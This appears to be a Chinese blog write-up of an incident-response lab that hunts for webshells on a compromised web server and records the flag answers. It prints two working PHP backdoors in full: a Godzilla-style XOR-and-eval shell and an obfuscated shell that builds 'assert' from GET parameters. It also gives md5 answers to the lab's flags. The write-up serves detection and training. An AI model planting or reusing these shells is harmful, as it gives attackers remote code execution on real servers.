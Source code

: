 # 第一章-应急响应Webshell查杀

  
  
&lt;!--more--&gt;  
任务要求  
	1.黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}  
	2.黑客使用的什么工具的shell github地址的md5 flag{md5}  
	3.黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx  
	4.黑客免杀马完整路径 md5 flag{md5}  
连上靶机之后，利用`tar`命令，压缩网站源码  
`tar -zcvf html.tar.gz /var/www/html`  
在线查杀网站进行查杀  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401312145880.png)  
在`/var/www/html/include/gz.php`文件下，发现第一个`flag`  
```bash  
root@ip-10-0-10-3:/var/www/html# cat /var/www/html/include/gz.php  
&lt;?php  
@session_start();  
@set_time_limit(0);  
@error_reporting(0);  
function encode($D,$K){  
    for($i=0;$i&lt;strlen($D);$i&#43;&#43;) {  
        $c = $K[$i&#43;1&amp;15];  
        $D[$i] = $D[$i]^$c;  
    }  
    return $D;  
}  
//027ccd04-5065-48b6-a32d-77c704a5e26d  
$payloadName=&#39;payload&#39;;  
$key=&#39;3c6e0b8a9c15224a&#39;;  
$data=file_get_contents(&#34;php://input&#34;);  
if ($data!==false){  
    $data=encode($data,$key);  
    if (isset($_SESSION[$payloadName])){  
        $payload=encode($_SESSION[$payloadName],$key);  
        if (strpos($payload,&#34;getBasicsInfo&#34;)===false){  
            $payload=encode($payload,$key);  
        }  
                eval($payload);  
        echo encode(@run($data),$key);  
    }else{  
        if (strpos($data,&#34;getBasicsInfo&#34;)!==false){  
            $_SESSION[$payloadName]=encode($data,$key);  
        }  
    }  
}  
  
```  
`flag{027ccd04-5065-48b6-a32d-77c704a5e26d}`  
很明显是一个冰蝎马，找到 github地址进行提交  
```bash  
f10wers13eicheng@MacBookPro [21时41分00秒] [~/Desktop]   
-&gt; % md5 -s &#39;https://github.com/BeichenDream/Godzilla&#39;  
MD5 (&#34;https://github.com/BeichenDream/Godzilla&#34;) = 39392de3218c333f794befef07ac9257  
```  
`flag{39392de3218c333f794befef07ac9257}`  
第三个 flag 是隐藏shell文件的路径`/var/www/html/include/Db/.Mysqli.php`  
```bash  
f10wers13eicheng@MacBookPro [21时39分52秒] [~/Desktop]   
-&gt; % md5 -s &#39;/var/www/html/include/Db/.Mysqli.php&#39;    
MD5 (&#34;/var/www/html/include/Db/.Mysqli.php&#34;) = aebac0e58cd6c5fad1695ee4d1ac1919  
```  
第四个 flag 为免杀马的路径，在河马查杀里边可以注意到一个特殊的  
`机器学习检测为webshell`，进行查看  
```bash  
root@ip-10-0-10-3:/var/www/html# cat /var/www/html/wap/top.php  
&lt;?php  
  
$key = &#34;password&#34;;  
  
//ERsDHgEUC1hI  
$fun = base64_decode($_GET[&#39;func&#39;]);  
for($i=0;$i&lt;strlen($fun);$i&#43;&#43;){  
    $fun[$i] = $fun[$i]^$key[$i&#43;1&amp;7];  
}  
$a = &#34;a&#34;;  
$s = &#34;s&#34;;  
$c=$a.$s.$_GET[&#34;func2&#34;];  
$c($fun);  
```  
确实是免杀马  
```bash  
f10wers13eicheng@MacBookPro [21时39分59秒] [~/Desktop]   
-&gt; % md5 -s &#39;/var/www/html/wap/top.php&#39;             
MD5 (&#34;/var/www/html/wap/top.php&#34;) = eeff2eabfd9b7a6d26fc1a53d3f7d1de  
```  
`flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/  


